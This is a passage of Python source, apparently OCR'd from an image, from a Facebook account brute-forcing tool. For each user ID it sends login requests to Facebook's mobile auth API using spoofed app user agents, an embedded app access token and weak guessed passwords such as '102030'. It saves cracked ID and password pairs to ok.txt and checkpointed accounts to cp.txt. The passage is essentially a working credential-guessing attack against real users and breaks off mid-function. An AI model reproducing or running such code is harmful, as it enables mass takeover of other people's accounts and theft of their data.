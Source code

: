 			raw_input("\033[93;1m PRESS ENTER TO BACK")
			crack()
	elif select =="0":
	    menu()
	else:
		print("")
		print("\t\033[91;1m  SELECT VALID OPTION")
		print("")
		crack_select()
	os.system("clear")
	logo()
	print("")
	print("\033[93;1m  TOTAL IDS : \033[92;1m"+str(len(id)))
	print("\033[92;1m  BRUTE HAS BEEN STARTED\x1b[0m")
	print("\033[94;1m  WAIT AND SEE \033[92;1m✘\033[91;1m✘\x1b[0m")
	linex()
	def main(arg):
		user=arg
		uid,name=user.split("|")
		_azimua = random.choice(["Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]", "[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]", "Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]", "Mozilla/5.0 (Linux; Android 5.1.1; A37f Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.152 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/305.1.0.40.120;]", "Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3", "Mozilla/5.0 (iPhone; CPU iPhone OS 11_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E216 [FBAN/FBIOS;FBAV/170.0.0.60.91;FBBV/105964764;FBDV/iPhone10,1;FBMD/iPhone;FBSN/iOS;FBSV/11.3;FBSS/2;FBCR/Sprint;FBID/phone;FBLC/en_US;FBOP/5;FBRV/106631002]", "Mozilla/5.0 (Linux; Android 7.1.1; ASUS Chromebook Flip C302 Build/R70-11021.56.0; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.80 Safari/537.36 [FB_IAB/FB4A;FBAV/198.0.0.53.101;]"])
		try:
			pass1 = "102030"
			api = 'https://b-api.facebook.com/method/auth.login'
			params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass1, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
			headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
			data = requests.get(api, params=params, headers=headers_)
			if "access_token" in data.text and "EAAA" in data.text:
				print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass1+"\033[0;97m")
				ok = open("ok.txt", "a")
				ok.write(uid+"|"+pass1+"\n")
				ok.close()
				oks.append(uid+pass1)
			else:
				if "www.facebook.com" in data.json()['error_msg']:
					print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass1+"\033[0;97m")
					cp = open("cp.txt", "a")
					cp.write(uid+"|"+pass1+"\n")
					cp.close()
					cps.append(uid+pass1)
				else:
					pass2 = "223344"
					api = 'https://b-api.facebook.com/method/auth.login'